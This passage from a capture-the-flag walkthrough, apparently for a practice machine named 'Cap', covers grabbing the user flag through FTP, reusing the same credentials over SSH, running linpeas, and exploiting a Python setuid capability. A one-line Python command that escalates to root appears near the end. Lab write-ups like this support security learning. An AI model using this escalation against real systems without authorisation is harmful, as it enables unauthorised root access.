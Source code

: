 ```bash
-rw-rw-r--    1 1001     1001       113551 Jul 02 13:50 privesc.txt
-rwxrwxrwx    1 1001     1001            0 Jul 02 20:27 rapidscan.py
-rw-rw-r--    1 1001     1001        69009 Jul 02 20:24 rapidscan.py.1
-rwxrwxrwx    1 1001     1001          376 Jul 02 22:05 rootend
-rw-rw-r--    1 1001     1001        69550 Jul 02 22:00 rootend.py
drwxr-xr-x    3 1001     1001         4096 Jul 02 13:48 snap
-rw-rw-r--    1 1001     1001          170 Jul 02 14:02 test.service
-r--------    1 1001     1001           33 Jul 02 13:25 user.txt
-rw-rw-r--    1 1001     1001        32804 Apr 08 17:22 windapsearch.py
226 Directory send OK.
```

if you notice we got our `user.txt` flag.
<br>Also for ssh credentials are same so after logging into ssh I ran [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) script and got the following interested output.
<img src="/assets/img/cap6.png" alt="CRTP" width="500" height="333">
we can clearly see the capabilities issue and machine name also suggest the same :D
<br> SO to confirm let's check
```bash
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("whoami")'
root
```
and here we go....<br>
<img src="/assets/img/cap7.png" alt="CRTP" width="500" height="333">
<br>Thank you for reading, Have a great time ahead!!